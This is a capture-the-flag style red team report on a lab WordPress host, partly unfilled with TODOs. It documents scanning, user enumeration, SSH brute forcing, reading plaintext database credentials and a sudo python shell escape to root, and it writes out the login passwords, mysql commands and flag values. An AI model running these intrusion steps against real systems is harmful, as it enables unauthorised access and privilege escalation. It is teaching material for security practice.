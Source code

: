 # Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](#exposed-services)
- [Critical Vulnerabilities](#critical-vulnerabilities)
- [Exploitation](#exploitation)

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sS -sV 192.168.1.110
  # TODO: Insert scan output
```

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 (SSH)
  - Port 80 (HTTP)
  - Port 111 (rpcbind)
  - Port 139 (netbios-ssn)
  - Port 445 (netbios-ssn)

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:
- Target 1
  - wpscan enumerate usernames
	- running wpscan was able to enumerate usernames for the target 	  system.
     (insert wpscan screenshots)

  - SSH with password.
	- Users are able to SSH with a password instead of requiring an 	  SSH key.
	- User michael had a weak password(Brute forced with HYDRA)
	(insert hydra screenshot)

  - Database credentials for wordpress are written in plain text.
	- Database credentials were stored in /var/www/html/
	- This allowed me to access the mysql database and extract 	  confidential information such as password hashes.

  - python can be run with sudo privilages.
	- The user steven has the ability to run python with sudo.
	- Running python with sudo can execute arbitrary code on the 	  system to get a shell with root access.


_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  
  - `flag1`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using michael's credentials, I 	was able to run the grep command in the /var directory and 		discovered flag1 was contained in /var/www/html/service.html.
    - Commands run:
	- ssh michael@192.168.1.110 (password michael)
	- cd /var
	- grep -rnw ./ -e flag1 2>/dev/null

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using michael's credentials, I 		was able to cat the flag 2 file found in /var/www.
    - Commands run:
	- ssh michael@192.168.1.110 (password michael)
	- cd /var/www
	- cat flag2.txt

  - 'flag3': afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Datbase credentails in plain text.
      - I was able to select the flag out of wp_posts in the mysql 		database after obtaining the credentails in 		/var/www/html/wp_config.php.
    - Commands run:
	- ssh michael@192.168.1.110 (password michael)
	- cat /var/www/html/wp_config.php
	- mysql -u root -p (password R@v3nSecurity)
	- USE wordpress;
	- USE wp_posts;
	- SELECT * FROM wp_posts;

  - 'flag4.txt': 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - python can be run with sudo.
      - After cracking steven's password hash using john the ripper, it 	was discovered that steven could run python with sudo 	priviliages.
      - Using a simple command I was able to execute a shell with root 	privilages and flag4 was found in the /root directory.
     - Commands run:
	- ssh steven@192.168.1.110 (password pink84)
	- python -c 'import os; os.system("/bin/sh")'
	- cat /root/flag4.txt
